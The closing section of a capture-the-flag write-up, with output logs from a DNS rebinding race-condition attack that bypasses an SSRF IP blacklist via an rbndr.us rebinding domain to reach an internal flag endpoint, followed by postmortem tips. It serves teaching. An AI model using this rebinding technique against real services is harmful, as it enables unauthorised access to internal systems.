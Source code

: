 **Result (Flag)**

After running the script for a few cycles, one of the requests successfully hit the race condition and returned a response from the internal service containing the flag.

```
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
[+] Hoàn thành một chu kỳ. Đợi 2 giây trước khi lặp lại...
---------------------------------
[+] Giai đoạn MỒI: Làm mới cache DNS của server...
[+] Giai đoạn BẮN: Gửi 36 yêu cầu trigger liên tục...
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"response":"sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}","status":200,"url":"http://08080808.7f000001.rbndr.us:5001/flag"}

```

The final flag is: `sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}`

---

## Postmortem / Tips

- This challenge is an excellent illustration of how IP blacklisting-based SSRF defenses can fail due to subtle vulnerabilities like TOCTOU.
- DNS Rebinding remains a powerful and relevant attack technique in real-world scenarios, especially when applications interact with external resources based on user-supplied domains.
- Exploiting race conditions is often not 100% reliable. Techniques like "Priming and Firing" significantly increase the probability of success by controlling the application's state before launching the attack.
